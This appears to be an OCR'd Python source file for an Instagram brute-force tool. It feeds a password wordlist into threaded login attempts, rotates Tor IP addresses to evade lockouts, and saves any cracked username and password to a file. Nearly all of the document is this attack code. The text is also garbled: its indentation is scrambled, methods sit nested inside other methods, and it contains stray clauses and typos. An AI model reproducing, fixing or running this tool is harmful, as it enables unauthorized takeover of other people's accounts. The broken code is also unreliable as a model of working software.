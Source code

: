 # Id 
# Date: 06/10/2017
# Distro: Kali linux
# Desc: Instagram Bruteforce
#
#

import os
import time
import urllib
import argparse
import threading
import subprocess
from platform import platform
from Core.tor import TorManager
from Core.Browser import Browser

class Instagram(TorManager,Browser):
	def __init__(self,username,wordlist):
		self.username = username
		self.wordlist = wordlist
		self.lock = threading.Lock()

		self.ip = None
		self.tries = 0
		self.wait = False
		self.alive = True
		self.isFound = False

		self.passlist = []
		self.recentIps = []

		#for browser
		self.url = 'https://www.instagram.com/accounts/login/?force_classic_login'
		self.form1 = 'username'
		self.form2 = 'password'

		Browser.__init__(self)
		TorManager.__init__(self)

		self.n = '\033[0m'
		self.r = '\033[31m'
		self.g = '\033[32m'
		self.y = '\033[33m'
		self.b = '\033[34m'

	def kill(self,msg=None):
		self.alive = False
		self.stopTor()
		try:
			if self.isFound:
				self.display(msg)
				print ' [-] Password Found!'

				with open('Cracked.txt','a') as f:
					f.write('[-] Username: {}\n[-] Password: {}\n\n'.\
					format(self.username,msg))

			    if all([not self.isFound, msg]):
			    	print '\n [-] {}'.format(msg)
			    finally:exit()

			def modifylist(self):
				if len(self.recentIps) == 5:
					del self.recentIps[0]					
			
			# failsafe
			if len(self.recentIps) > 5:
				while all([len(self.recentIps) > 4]):
					del self.recentIps[0]
		def manageIps(self,rec=2):
			ip = self.getIp()
			if ip:
				if ip in self.recentIps:
					self.updateIp()
					self.manageIps()
					self.ip = ip
					self.recentIps.append(ip)
			    else:
			    	if rec:
			    		self.updateIp()
			    		self.manageIps(rec-1)
			    	else:
			    		self.connectionHandler()

			    def changeIp(self):
			    	self.createBrowser()
			    	self.updateIp()

			    	self.manageIps()
			    	self.modifylist()
			    	self.deleteBrowser()

			def setupPasswords(self):
				with open(self.wordlist,'r') as passwords:
					for pwd in passwords:
						pwd = pwd.replace('\n','')
						if len(self.passlist) < 5:
							self.passlist.append(pwd)
						else:
							while all([self.alive,len(self.passlist)]):pass
							if not len(self.passlist):
								self.passlist.append(pwd)

			# done reading files
			while self.alive:
				if not len(self.passlist):
					self.alive = False

			def connectionHandler(self):
				if self.wait:return
				self.wait = True
				print ' [-] Waiting For Connection {}...{}'.format(self.g,self.n)
				while all([self.alive,self.wait]):
					try:
						self.updateIp()
						urllib.urlopen('https://wtfismyip.com/text')
						self.wait = False
						break
					except IOError:
						time.sleep(1.5)
						self.manageIps()

					def attempt(self,pwd):
						with self.lock:
							self.tries+=1
							self.createBrowser()
							html = self.login(pwd)
							self.deleteBrowser()

					if html:
						if all([not self.form1 in html,not self.form2 in html]):
							self.isFound = True
							self.kill(pwd)
						  del self.passlist[self.passlist.index(pwd)]

				def run(self):
					self.display()
					time.sleep(1.3)
					threading.Thread(target=self.setupPasswords).start()
					while self.alive:
						bot = None

					for pwd in self.passlist:
						bot = threading.Thread(target=self.attempt,args=[pwd])
						bot.start()

					# wait for bot
					if bot:
						while all([self.alive,bot.is_alive()]):pass
						if self.alive:
							self.changeIp()

					def display(self,pwd=None):
						pwd = pwd if pwd else ''
						ip = self.ip if self.ip else ''
						creds = self.r if not self.isFound else self.g
						attempts = self.tries if self.tries else ''

						subprocess.call(['clear'])
						print ''
						print ' +------- Instagram -------+'
						print ' [-] Username: {}{}{}'.format(creds,self.username.title(),self.n)
						print ' [-] Password: {}{}{}'.format(creds,pwd,self.n)
						print ' [-] Proxy IP: {}{}{}'.format(self.b,ip,self.n)
						print ' [-] Attempts: {}{}{}'.format(self.y,attempts,self.n)
						print ''

						if not ip:
							print ' [-] Obtaining Proxy IP {}...{}'.format(self.g,self.n)
							self.changeIp()
							time.sleep(1.3)
							self.display()
				def main():
					# assign arugments
					args = argparse.ArgumentParser()
					args.add_argument('username',help='Email or username')
					args.add_argument('wordlist',help='wordlist')
					args =  args.parse_args()

					# assign variables
					engine = Instagram(args.username,args.wordlist)

					# does tor exists?
					if not os.path.exists('/usr/bin/tor'):
						try:engine,installTor()
					except KeyboardInterrupt:engine.kill('Exiting {}...{}'.format(self.g,self.n))
					if not os.path.exists('/usr/sbin/tor'):
						engine.kill('Please Install Tor'.format(engine.y,engine.r,engine.n))

				# does the account exists?
				if not engine.exists(engine.username):
					engine.kill('The Account \'{}\' does not exists'.format(engine.username.title()))

				# start attack
				try:
					engine.run()
				finally:
					if not engine.isFound:
						engine.kill('Exiting {}...{}'.format(engine.g,engine.n))

			if __name__ == '__main__':
				if not 'kali' in platform():
					exit('Kali Linux required')

			if os.getuid():
				exit('root access required')
			else:
				main()
